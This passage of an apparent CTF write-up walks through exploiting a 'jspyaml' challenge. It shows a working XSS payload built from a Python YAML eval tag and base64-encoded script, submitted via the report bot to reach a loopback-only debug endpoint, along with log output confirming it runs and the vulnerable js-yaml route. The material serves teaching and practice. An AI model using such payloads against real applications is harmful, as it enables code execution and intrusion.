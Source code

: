 ```js=
const xss = `!!python/object/apply:builtins.eval \\n- __import__('js').eval('eval(atob(\\\\'${btoa(payload)}\\\\'))')`;


console.log(HOST + '/#' + xss);
```

> In `server.js`, the application specifies that a **urlencoded** body content type must be used, with the line
`app.use(express.urlencoded({extended:false}));`.
As such, we specify the content type header in the above fetch request.

Before we proceed, let's test our payload to ensure that it works lol

Paste the link(copy whole link including spaces) outputted by the above code into the textbox @ `/report` and press submit.

![image](/images/upload_0866c99743d27918b4a0cb02e946a774.png)

If everything has been configured correctly, you should see something like this in the console of your self hosted instance:
```shell
jspyaml-1  | Server is running at http://localhost:3000
jspyaml-1  | Opening browser for http://localhost:3000/#!!python/object/apply:builtins.eval \n- __import__('js').eval('eval(atob(\\'CmRvY3VtZW50LmNvb2tpZSA9ICdkZWJ1Zz1vbic7CmZldGNoKCdodHRwOi8vbG9jYWxob3N0OjMwMDAvZGVidWcnLCB7CiAgICBtZXRob2Q6ICdQT1NUJywKICAgIGhlYWRlcnM6IHsKICAgICAgJ0NvbnRlbnQtVHlwZSc6ICdhcHBsaWNhdGlvbi94LXd3dy1mb3JtLXVybGVuY29kZWQnCiAgICB9LAogICAgYm9keTogJ3lhbWw9aGlpJwp9KTs=\\'))')
jspyaml-1  | Visting  http://localhost:3000/#!!python/object/apply:builtins.eval \n- __import__('js').eval('eval(atob(\\'CmRvY3VtZW50LmNvb2tpZSA9ICdkZWJ1Zz1vbic7CmZldGNoKCdodHRwOi8vbG9jYWxob3N0OjMwMDAvZGVidWcnLCB7CiAgICBtZXRob2Q6ICdQT1NUJywKICAgIGhlYWRlcnM6IHsKICAgICAgJ0NvbnRlbnQtVHlwZSc6ICdhcHBsaWNhdGlvbi94LXd3dy1mb3JtLXVybGVuY29kZWQnCiAgICB9LAogICAgYm9keTogJ3lhbWw9aGlpJwp9KTs=\\'))')
jspyaml-1  | Input: hii
jspyaml-1  | Output: hii
```

Woah! Our xss code works !!

```js=
app.post('/debug', (req, res) => {
    if(ip.isLoopback(req.ip) && req.cookies.debug === 'on'){
        const yaml = require('js-yaml');
        let schema = yaml.DEFAULT_SCHEMA.extend(require('js-yaml-js-types').all);
        try {
        	let input = req.body.yaml;
        	console.log(`Input: ${input}`);
        	let output = yaml.load(input, {schema});
        	console.log(`Output: ${output}`);
        	res.json(output);
        } catch(e) {
        	res.status(400).send('Error');
        }
    } else {
        res.status(401).send('Unauthorized');
    }
});
```
